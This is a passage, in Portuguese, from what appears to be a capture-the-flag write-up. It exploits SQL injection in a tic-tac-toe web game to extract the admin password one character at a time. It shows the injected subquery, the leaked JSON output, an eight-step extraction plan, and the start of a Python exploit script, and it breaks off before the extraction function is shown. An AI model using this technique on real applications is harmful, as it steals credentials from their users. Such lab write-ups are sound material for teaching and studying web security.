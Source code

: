 O número `89` é o ASCII da letra `Y`. Veja que o `Y` é a primeira letra do base64 do nosso ambiente simulado `YmhhY2t7ZmxhZ19wYXJhX3Rlc3Rlc30K`.

Agora só temos que fazer isso pra cada caractere da senha. Mas pra isso, precisamos primeiro pegar o tamanho da senha, o que já está facinho.

Vamos direto pra subquery:

```sql
(select length(password) from users where id = 1)
```

Retorno:

```json
{
    "O": [7],
    "X": [1,2,3,89,32],
    "game_id": 3,
    "game_key": "addb868e-429e-4ef2-b2d1-099ca950a346",
    "winner": "?"
}
```

O último valor retornado é `32`, que é exatamente o tamanho da senha.

Com isso, o plano de ação fica assim:
1. Injetar uma subquery pra pegar o tamanho da senha do `admin`
2. Pegar esse resultado na rota `/game/<game_key>/info`
3. Fazer um loop que vai de 1 ao tamanho da senha (obtido no passo 2) - ignorar os erros.
4. Buscar os valores da rota `/game/<game_key>/info`
5. Extrair os valores do JSON dentro do atributo `X` (mantendo a ordem).
6. Gerar o caractere ASCII de cada número 
7. Juntar todos os caracteres, na ordem.
8. Fazer o decode do base64

Bora exploitar.

## Exploit

Pra facilitar a rodada do exploit, vale começar o processo do zero, registrando um novo usuário e criando um novo jogo pra fazer esses passos, a estrutura básica fica assim:

```python=89
def crackit():
    register()
    login()
    game_key = newgame()
    enc_pwd = get_encoded_password(game_key)
    pwd = base64.b64decode(enc_pwd)

    print(pwd)
```

Não vou explicar cada passo aqui, que o negócio já tá virando bíblia.
A função `get_encoded_password` mostra a estrutura do nosso plano de ação:
